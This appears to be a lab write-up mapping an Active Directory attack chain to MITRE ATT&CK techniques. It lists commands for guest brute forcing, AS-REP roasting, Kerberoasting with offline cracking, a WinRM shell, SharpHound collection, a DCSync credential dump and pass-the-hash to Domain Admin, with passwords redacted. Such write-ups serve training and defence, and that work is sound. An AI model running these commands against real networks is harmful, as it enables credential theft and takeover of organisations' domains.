# Attack Scenarios (mapped to MITRE ATT&CK)
Passwords and hashes have been concealed to retain confidentiality.

## <u>Brute Forcing Guest Account</u>
- **Techniques:** T1110.001 (Brute Force: Password Guessing)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Guest' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding`
{ loading=lazy }

## <u>Enumerating SMB Shares</u>
- **Techniques:** T1135 (Network Share Discovery)
- **Procedure:**

`nxc smb 192.168.25.141 -u 'Guest' -p '_________' --shares`
{ loading=lazy }

## <u>ASReproast Domain Account</u>
- **Techniques:** T1558.004 (Steal or Forge Kerberos Tickets: AS-REP Roasting), T1110.002 (Brute Force: Password Cracking)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '' --asreproast asreproast.txt`
{ loading=lazy }

`john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.txt`
{ loading=lazy }

## <u>WinRM Shell with Domain Account</u>
- **Techniques:** T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'bob' -p '_________’`
{ loading=lazy }

## <u>Upload of SharpHound</u>
- **Techniques:** T1021.006 (Remote Services: Windows Remote Management), T1059.003 (Command and Scripting Interpreter: Windows Command Shell)
- **Procedure:**

`upload SharpHound.exe`
{ loading=lazy }

## <u>Execution of SharpHound</u>
- **Techniques:** T1069.002 (Permission Group Discovery: Domain Groups), T1087.002 (Account Discovery), T1018 (Remote System Discovery), T1482 (Domain Trust Discovery), T1560 (Archive Collected Data)
- **Procedure:**

`./SharpHound.exe`
{ loading=lazy }

## <u>Exfiltration of Data Collected by SharpHound</u>
- **Techniques:** T1041 (Exfiltration Over C2 Channel)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
{ loading=lazy }

## <u>Bloodhound</u>
{ loading=lazy }

## <u>Kerberoast of svc-test</u>
- **Techniques:** T1558.003 (Steal or Forge Kerberos Tickets: Kerberoasting), T1110.002 (Brute Force: Password Cracking), T1078.002 (Valid Accounts: Domain Accounts)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '_________' --kerberoasting kerbroast.txt`
{ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt kerbroast.txt`
{ loading=lazy }

## <u>DCSync</u>
- **Techniques:** T1003.006 (OS Credential Dumping: DCSync), T1078.002 (Valid Accounts: Domain Accounts)
- **Procedure:**

`impacket-secretsdump -just-dc LAB/svc-test:'_________'@WIN-LLBIAPV2E9D.lab.local`
{ loading=lazy }

## <u>Pass-the-hash to Login as Domain Admin</u>
- **Techniques:** T1550.002 (Use Alternate Authentication Material: Pass the Hash), T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'Administrator' -H '__________________’`
{ loading=lazy }
